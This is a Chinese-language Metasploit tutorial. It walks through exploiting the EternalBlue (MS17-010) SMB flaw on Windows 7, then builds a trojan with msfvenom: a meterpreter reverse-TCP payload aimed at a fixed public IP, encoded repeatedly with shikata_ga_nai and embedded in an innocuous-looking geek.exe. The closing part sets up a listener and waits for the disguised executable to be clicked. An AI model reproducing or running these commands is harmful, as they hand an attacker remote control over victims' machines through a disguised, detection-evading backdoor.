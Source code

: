 # msf攻击 windows永恒之蓝

永恒之蓝(ms17_010) 针对2017年以前的Windows漏洞

#### 攻击

虚拟机安装windows7 https://msdn.itellyou.cn/

在kali内`msfconsole`打开msf控制台

```bash
search ms17_010
```

寻找永恒之蓝漏洞工具

> ms17_010 为漏洞编号

![image-20230519161141759](kali.assets/image-20230519161141759.png)

输入`use 0` 或者` use exploit/windows/smb/ms17_010_eternalblue `使用攻击模块

使用`options`查看模块选项

`Required`为必填项

![image-20230519161403877](kali.assets/image-20230519161403877.png)

输入`set RHOST xxx`为目标ip  

![image-20230519162057479](kali.assets/image-20230519162057479.png)

若`Payload options`不为`windows/x64....`,则 `set  payload windows/x64....`

- **LHOST** 本地(kali)IP地址
- **LPORT** 监听端口，不被占用即可 

万事俱备 `run`即可

![image-20230519162312318](kali.assets/image-20230519162312318.png)

![image-20230519162441985](kali.assets/image-20230519162441985.png)

**攻击成功**

# 生成远程后门木马

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=60.204.131.156 lport=10222 -e x86/shikata_ga_nai -i 5 -f exe -x /test/geek.exe  -o /test/output/geek.exe
```

![image-20230519162932698](kali.assets/image-20230519162932698.png)

> linux则将后缀改为elf

#### 监听

`use exploit/multi/handler` 模块

`options` 查看选项

![image-20230519164209463](kali.assets/image-20230519164209463.png)

- **LHOST** 是生成exe时指定的`lhost`
- **LPORT** 是生成exe时指定的`lport`
- **payload**是生成exe时指定的`-p xxx`

```bash
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 60.204.131.156 
set LPORT 10222
```

`run`即可，等待生成的exe被点击